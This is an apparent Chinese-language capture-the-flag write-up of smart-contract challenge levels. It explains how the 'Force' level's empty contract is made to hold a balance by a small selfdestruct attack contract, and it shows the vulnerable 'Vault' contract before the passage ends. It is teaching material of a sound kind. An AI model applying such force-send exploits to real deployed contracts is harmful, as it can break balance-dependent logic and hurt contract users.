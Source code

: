 - 题目要求：使合约的余额大于0
- 源码：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract Force {/*
    
                       MEOW ?
             /\_/\   /
        ____/ o o \
      /~____  =ø= /
     (______)__m_m)
    
    */}
    ```
    
- 解体步骤：
    - 给了一个空的合约要求转账，但转账涉及的函数：transfer()、send()、call()三个函数的前提都是需要目标合约中存在payable修饰的函数，但该合约没有
    - 合约自毁时可以将合约剩下的所有以太发送给指定地址，而不用管目标地址是否接受转账。
    - 在remix中编译并部署攻击合约Attack，将生成的目标合约地址作为attack()函数的参数传入，在attack的时候记得要给合约转1 wei。提交实例后该关卡完成
- 攻击合约：
    
    ```solidity
    pragma solidity ^0.6.0;
    
    contract Attack {
        function attack(address _address) payable public {
            selfdestruct(payable(_address));
        }
    }
    ```
    
- PS：selfdestruct自毁函数：
    - 执行后，合约将拒绝服务，地址对应的字节码标注为删除
    - 合约地址中所有的eth将被发送到指定的新地址
    - 进行eth转移时，即使目标地址为一个合约的地址，也不会触发该合约的fallback()函数，因此不需要该合约有任何的payable修饰的函数

### Vault

- 题目要求：解锁
- 合约代码：
    
    ```
    pragma solidity ^0.6.0;
    
    contract Vault {
      bool public locked;
      bytes32 private password;
    
      constructor(bytes32 _password) public {
        locked = true;
        password = _password;
      }
    
      function unlock(bytes32 _password) public {
        if (password == _password) {
          locked = false;
        }
      }
    }
    ```
    